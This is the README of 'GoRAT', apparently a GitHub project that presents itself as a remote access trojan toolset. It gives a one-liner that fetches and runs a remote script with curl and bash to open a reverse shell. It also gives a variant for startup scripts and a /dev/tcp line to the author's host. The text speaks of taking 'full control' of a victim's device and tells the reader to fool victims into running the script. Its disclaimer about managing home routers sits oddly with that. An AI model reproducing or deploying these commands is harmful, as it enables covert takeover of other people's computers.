 # GoRAT
This is a [remote access trojan](https://www.fortinet.com/resources/cyberglossary/remote-access-trojan) toolset.

* server is written in Go
* client is utilizing the networking tool `netcat` which is distributed on most systems. (still under development)

If a victim unintentionally executed the command below, I will have full control over his/her device via a reverse shell.

```sh
# when manually run just once
nohup bash <(curl https://raw.githubusercontent.com/yanxurui/gorat/main/clickme.sh) &
# or when added to the startup script
bash <(curl https://raw.githubusercontent.com/yanxurui/gorat/main/clickme.sh) > /dev/null 2>&1 &
```

Of course, I am using this tool to manage my remote devices, such as router at home, behind NAT.
Please don't use it for any form of exploitation.

## Server
The server listens to a single port (8090 by default) but it can accept more than one remote or local connections.
Remote connections are initiated from the victims' computers by executing `clickme.sh` which will start a reverse shell.
Local connection can list all remote connections and select one of them to run any command in the reverse shell.

A echo remote peer can be setup by `tee >& /dev/tcp/yanxurui.cc/8090 <&1`

## Client
As long as the client has internet access and has bash installed, it can be exploited. It's your responsibility to fool the victim into running the shell script.

